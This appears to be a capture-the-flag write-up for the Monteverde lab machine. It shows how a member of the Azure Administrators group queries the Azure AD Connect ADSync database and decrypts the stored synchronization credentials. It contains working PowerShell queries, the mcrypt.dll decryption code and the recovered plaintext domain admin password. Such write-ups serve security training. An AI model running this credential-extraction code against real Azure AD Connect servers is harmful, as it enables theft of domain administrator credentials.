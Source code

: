 ```yaml
---
title: "Pwning Password Hash Synchronization in Azure Active Directory (Monteverde HTB)"
date: 2020-01-14T15:13:38-05:00
draft: false
description: "Using system.sqlclient to query and decrypt local Administrator PW Hashes"
---
```


# Password Hash Synchronization

We find ourselves a domain user in the Azure Administrators group. We can use powershell's Invoke-SQLcmd to query the Azure AD Database "ADSync". This database allows active directory to sync the AD configurations to the cloud. The attack is explained more thoroughly in this blog: 

[Azure-AD-Connect=forReadTeams](https://blog.xpnsec.com/azuread-connect-for-redteam/)

The configuration files are stored in:  

mms_server_configuration  

mms_management_agent

The encrypted configuration lies in the mms_management_agent and is decrypted with the entropy, instance_id, and key_id,with the help of mcrypt.dll. 

To query the required fields we can utilize the built-in Powershell commandlet: 
```powershell
Invoke-SQLCMD  
```

```powershell
Invoke-SQLCMD -Query "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration" -ServerInstance "MONTEVERDE" -Database "ADSync"  
  
Invoke-SQLCMD -Query "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent" -ServerInstance "MONTEVERDE" -Database "ADSync"  
```

We can store these values directly in individual powershel variables, and then pass them to the decryption function provided by the XPN blog as such:  
```powershell
add-type -path "C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll"
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
```

Now our decrypted information is stored in $decrypted. So on the command line:

*Evil-WinRM* PS C:\Users\mhope\Documents> $decrypted  

```html
<encrypted-attributes>
 <attribute name="password">d0m@in4dminyeah!</attribute>
</encrypted-attributes>
```







